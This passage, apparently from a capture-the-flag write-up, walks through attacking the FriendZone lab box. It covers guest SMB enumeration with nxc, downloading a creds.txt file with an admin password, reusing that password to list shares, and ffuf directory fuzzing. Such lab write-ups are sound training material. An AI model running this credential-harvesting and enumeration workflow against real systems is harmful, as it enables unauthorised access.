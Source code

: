 ```bash
SMB         10.10.10.123    445    FRIENDZONE       [*] Unix - Samba (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True) 
SMB         10.10.10.123    445    FRIENDZONE       [+] \: (Guest)
SMB         10.10.10.123    445    FRIENDZONE       [*] Copying "creds.txt" to "creds.txt"
SMB         10.10.10.123    445    FRIENDZONE       [+] File "creds.txt" was downloaded to "creds.txt"

```

Content of creds.txt:

```bash
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

Let’s see if the credential work for SMB:

```bash
nxc smb 10.10.10.123 -u admin -p 'WORKWORKHhallelujah@#' --shares

SMB         10.10.10.123    445    FRIENDZONE       [+] \admin:WORKWORKHhallelujah@# (Guest)
SMB         10.10.10.123    445    FRIENDZONE       Share           Permissions     Remark
SMB         10.10.10.123    445    FRIENDZONE       -----           -----------     ------
SMB         10.10.10.123    445    FRIENDZONE       print$                          Printer Drivers
SMB         10.10.10.123    445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.10.10.123    445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))

```

Same permissions. Let’s see if the ftp server have more files:

```bash
ftp 10.10.10.123 
```

Denied.

Let’s visit the web page now:

![image.png]({{ site.baseurl }}/assets/friendzone/image.png)

Not much in the source code either.

Let’s fuzz the main site:

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.10.123/FUZZ -ic

                        [Status: 200, Size: 324, Words: 26, Lines: 13, Duration: 1339ms]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 22ms]
                        [Status: 200, Size: 324, Words: 26, Lines: 13, Duration: 19ms]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 16ms]
```
